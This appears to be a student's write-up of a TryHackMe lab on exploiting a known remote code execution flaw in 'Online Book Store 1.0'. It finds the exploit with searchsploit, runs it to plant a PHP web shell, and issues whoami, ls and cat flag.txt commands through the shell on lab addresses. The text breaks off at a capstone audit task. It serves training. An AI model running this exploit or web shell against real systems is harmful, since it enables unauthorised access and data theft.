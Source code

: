 To use this exploit, provide the following arguments:
-u The URL of the application
-c the command that you wish to execute       
With this information in mind, we are now ready to use this exploit on the vulnerable machine. We are going to do the following:
Use the exploit to upload a malicious file to the vulnerable application containing whatever command we wish to execute, where the web server will run this malicious file to execute the code.
The file will first contain a basic command that we will use to verify that the exploit has worked.
exploit.py -u http://10.10.10.10 -c "whoami"
www-data    
Then we are going to read the contents of a file located on the vulnerable machine.
exploit.py -u http://10.10.10.10 -c "cat flag.txt"
THM{EXPLOIT_COMPLETE}
Practical: Manual Exploitation
Visit the webserver running on the machine by navigating to http://10.10.46.162.

Find out the version of the application that is running. What is the name and version number of the application?



Now use the resources and skills from this module to find an exploit that will allow you to gain remote access to the vulnerable machine.

Used searchsploit to identify RCE vulnerability:

searchsploit -eo ”online book store 1.0”



Use this exploit against the vulnerable machine.  What is the value of the flag located in a web directory?

Ran exploit against URL to create web shell:

python3 Desktop/Additional\ Tools/searchsploit/exploits/php/webapps/47887.py http://10.10.46.162



	Tested web shell in the browser:

	http://10.10.46.162/bootstrap/img/GljxduJguc.php?cmd=whoami

	
	
	Listed directory contents:

	http://10.10.46.162/bootstrap/img/GljxduJguc.php?cmd=ls

	

Printed contents of flag.txt file:

	http://10.10.46.162/bootstrap/img/GljxduJguc.php?cmd=cat+flag.txt	
Vulnerability Capstone
Ackme Support Incorporated has recently set up a new blog. Their developer team has asked for a security audit to be performed before they create and publish articles to the public. 
It is your task to perform a security audit on the blog; looking for and abusing any vulnerabilities that you find.
What is the name of the application running on the vulnerable machine?

What is the version number of this application?

